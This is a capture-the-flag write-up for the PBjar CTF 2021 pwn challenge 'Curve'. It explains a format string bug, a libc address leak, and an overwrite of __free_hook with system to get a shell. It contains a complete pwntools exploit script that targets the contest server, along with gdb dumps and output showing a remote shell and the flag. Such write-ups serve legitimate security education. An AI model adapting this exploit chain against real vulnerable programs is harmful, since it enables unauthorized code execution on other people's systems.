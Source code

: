 ## Curve

> Points: 398
>
> Solves: 28

### Description:
One of the hardest parts of making a contest is making sure that it has a good curve aka a good problem difficulty distribution. This lazily made problem was made to make the beginning pwn curve a little less steep. 

Connect with "nc 143.198.127.103 42004".

Author: Rythm

### Attachments:
```
curve.zip
```

## Analysis:

This binary can be input 3 times, the first time(`Input 1`) it is output with `puts`, the second time(`Input 2`) there is no output, and the third time(`Input 3`) it is output directly with `printf`. Therefore, there is a vulnerability of `FSB (Format String Bug)` in the third input.
However, since this binary is `Full RELRO`, `GOT` cannot be rewritten with `FSB`. The method of rewriting the return address with `FSB` does not have enough read input size.
Also, since the third input is written to the area allocated by `malloc` in the heap, the address that can be used by `FSB` cannot be specified.

Below is the compilation result of the main () function by `Ghidra`.
```c
undefined8 main(void)

{
  char *__format;
  long in_FS_OFFSET;
  char local_98 [136];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  __format = (char *)malloc(0x80);
  puts("Oh no! Evil Morty is attempting to open the central finite curve!");
  puts("You get three inputs to try to stop him.\n");
  puts("Input 1:");
  read(0,local_98,0xb0);
  puts(local_98);
  puts("Input 2:");
  read(0,local_98,0x80);
  puts("\nInput 3:");
  read(0,__format,0x80);
  printf(__format);　　　　　　　　　<=========== There is a `FSB` vulnerability here
  free(__format);
  puts("\nLol how could inputting strings stop the central finite curve.");
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

The result of checksec. We can see that it is `Full RELRO`.
```bash
$ checksec curve
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Since the character string input in `Input 2` is output as `0x4141414141414141` at the 8th position of `Input 3`, We can see that the value of `index` is `8`.
```bash
Input 2:
AAAAAAAA

Input 3:
BBBBBBBB,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p,%p
BBBBBBBB,0x55555555a2a0,0x80,0x7ffff7ef5e8e,0xa,0x7ffff7fc5be0,(nil),0x55555555a2a0,0x4141414141414141,0xa,(nil),(nil),(nil),(nil),(nil)

```

## Solution:

First, the libc address leak can be done by entering a `0x98` size string in `Input 1` to leak the address `__libc_start_main + 234`. We can calculate the base address of libc.

```bash
gdb-peda$ x/80gx 0x7fffffffdec0
0x7fffffffdec0:	0x0000000000000000	0x000055555555a2a0
0x7fffffffded0:	0x4141414141414141	0x4141414141414141
0x7fffffffdee0:	0x4141414141414141	0x0000000000000a61
0x7fffffffdef0:	0x0000000000000000	0x0000000000000000
0x7fffffffdf00:	0x0000000000000000	0x0000000000000000
0x7fffffffdf10:	0x0000000000f0b5ff	0x00000000000000c2
0x7fffffffdf20:	0x00007fffffffdf47	0x0000555555555325
0x7fffffffdf30:	0x0000000000000000	0x0000000000000000
0x7fffffffdf40:	0x00005555555552e0	0x00005555555550b0
0x7fffffffdf50:	0x00007fffffffe050	0x6b35ac597c192200
0x7fffffffdf60:	0x00005555555552e0	0x00007ffff7e2dd0a  <=== Leak this `0x00007ffff7e2dd0a (__ libc_start_main + 234)`
0x7fffffffdf70:	0x00007fffffffe058	0x0000000100000000
```

I use `free(__format)` which is called at the end of the binary to start the shell('/bin/sh'). I use FSB to write the address of the `system` function in `__free_hook`.
At this time, first I write string of `'/bin/sh;'` so that it is in the form of `free('/bin/sh; FSB string')`. Then, when I call free(), it will be in the form of `system('/bin/sh; ...')`, so I can start the shell('/bin/sh').

Also, `Input 2` writes the address of `__free_hook`, and `INPUT 3` writes the character string of `FSB`. Since the input size of `Input 2` and` Input 3` is as large as `0x80`, we can write the same character string created by `fmtstr_payload` to `Input 2` and` Input 3` as shown below.

```python
index = 8
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')
```

`fmtstr_payload` creates a string like the one below.
```bash
    00000000  2f 62 69 6e  2f 73 68 3b  25 36 35 30  39 36 63 25  │/bin│/sh;│%650│96c%│
    00000010  31 34 24 6c  6c 6e 25 33  33 31 39 39  63 25 31 35  │14$l│ln%3│3199│c%15│
    00000020  24 68 6e 25  33 30 36 39  33 63 25 31  36 24 68 6e  │$hn%│3069│3c%1│6$hn│
    00000030  70 8e fc f7  ff 7f 00 00  74 8e fc f7  ff 7f 00 00  │p···│····│t···│····│
    00000040  72 8e fc f7  ff 7f 00 00  0a                        │r···│····│·│
```

## Exploit code:
```python
from pwn import *

context(os='linux', arch='amd64')
#context.log_level = 'debug'

BINARY = './curve'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "143.198.127.103"
  PORT = 42004
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.31.so")
else:
  s = process(BINARY)
  libc = elf.libc
  #s = process(BINARY, env={'LD_PRELOAD': './libc-2.31.so'})
  #libc = ELF("./libc-2.31.so")

# libc leak
s.sendlineafter("Input 1:\n", "A"*0x98)
s.recvuntil("A"*0x98)
libc_leak = u64(s.recvuntil("\nI")[:-2] + b"\x00\x00")
libc_base = libc_leak - libc.sym.__libc_start_main - 234
free_hook = libc_base + libc.sym.__free_hook
system_addr = libc_base + libc.sym.system
print("libc_leak =", hex(libc_leak))
print("libc_base =", hex(libc_base))

index = 8

# Write system address in __free_hook to call system('/bin/sh')
writes = {free_hook: system_addr}
buf = b"/bin/sh;" + fmtstr_payload(index+1, writes, numbwritten=8, write_size='short')

s.sendlineafter("2:\n", buf)
s.sendlineafter("3:\n", buf)

s.interactive()
```

## Results:
```bash
mito@ubuntu:~/CTF/PBjar_CTF_2021/Pwn_Curve/curve$ python3 solve_fmtstr.py r
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/curve'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 143.198.127.103 on port 42004: Done
[*] '/home/mito/CTF/PBjar_CTF_2021/Pwn_Curve/curve/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
libc_leak = 0x7f2d588ced0a
libc_base = 0x7f2d588a8000
[*] Switching to interactive mode
/bin/sh;
...
$ id
uid=1000(user) gid=1000(user) groups=1000(user)
$ ls -l
total 2028
lrwxrwxrwx   1 root root       7 Aug 27 07:16 bin -> usr/bin
drwxr-xr-x   2 root root    4096 Apr 15  2020 boot
drwxr-xr-x   5 root root     340 Sep 17 04:48 dev
drwxr-xr-x   1 root root    4096 Sep 17 04:48 etc
-rwxr-xr-x   1 root root      64 Sep 17 04:28 flag.txt
drwxr-xr-x   1 root root    4096 Sep 17 04:47 home
-rwxr-xr-x   1 root root  177928 Sep 17 04:28 ld-2.31.so
lrwxrwxrwx   1 root root       7 Aug 27 07:16 lib -> usr/lib
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib32 -> usr/lib32
lrwxrwxrwx   1 root root       9 Aug 27 07:16 lib64 -> usr/lib64
-rwxr-xr-x   1 root root 1839792 Sep 17 04:28 libc-2.31.so
lrwxrwxrwx   1 root root      10 Aug 27 07:16 libx32 -> usr/libx32
drwxr-xr-x   2 root root    4096 Aug 27 07:16 media
drwxr-xr-x   2 root root    4096 Aug 27 07:16 mnt
drwxr-xr-x   2 root root    4096 Aug 27 07:16 opt
dr-xr-xr-x 262 root root       0 Sep 17 04:48 proc
drwx------   2 root root    4096 Aug 27 07:27 root
drwxr-xr-x   5 root root    4096 Aug 27 07:27 run
lrwxrwxrwx   1 root root       8 Aug 27 07:16 sbin -> usr/sbin
drwxr-xr-x   2 root root    4096 Aug 27 07:16 srv
dr-xr-xr-x  13 root root       0 Sep 17 04:48 sys
drwxrwxrwt   1 root root    4096 Sep 17 04:38 tmp
drwxr-xr-x   1 root root    4096 Aug 27 07:16 usr
drwxr-xr-x   1 root root    4096 Aug 27 07:27 var
$ cat flag.txt
flag{n0w_y0ur3_3v1l_m0rty_t00_s00n3r_0r_l4t3r_w3_4ll_4r3_s4dg3}
```

## Reference:

https://inaz2.hatenablog.com/entry/2014/04/20/041453
